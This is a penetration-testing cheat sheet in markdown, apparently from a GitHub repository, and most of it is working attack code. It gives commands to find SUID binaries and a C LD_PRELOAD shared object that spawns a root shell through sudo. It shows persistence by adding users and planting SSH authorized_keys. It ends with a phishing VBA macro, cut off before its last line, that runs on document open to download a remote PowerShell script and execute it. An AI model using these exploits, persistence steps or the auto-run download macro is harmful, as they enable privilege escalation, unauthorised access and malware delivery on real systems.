 ### Privilege Escalation

```bash
# find SUID binaries
$ find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
$ find / -uid 0 -perm -4000 -type f 2>/dev/null

$ sudo -l

# If LD_PRELOAD is explicitly defined in the sudoers file
$ cat shell.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}

$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
$ sudo LD_PRELOAD=<full_path_to_so_file> <program>
```

### Persistence

```bash
$ adduser <uname> # Interactive
$ useradd <uname>
$ useradd -u <UID> -g <group> <uname>  # UID can be anything... this command is to add a user to a specific group

# Adding SSH public key
$ ssh-keygen -t rsa -b 4096 

# This creates both id_rsa and id_rsa.pub in ~/.ssh directory
# Copy the content in "id_rsa.pub" and create ".ssh" directory in /home of target machine
$ chmod 700 ~/.ssh
$ nano ~/.ssh/authorized_keys # enter the copied content here
$ chmod 600 ~/.ssh/authorized_keys
```

# Windows

### Phishing

##### Malicious Macro

```vbscript
Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadString('http://x.x.x.x/run.ps1') | IEX"
    Shell str, vbHide
End Sub

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
```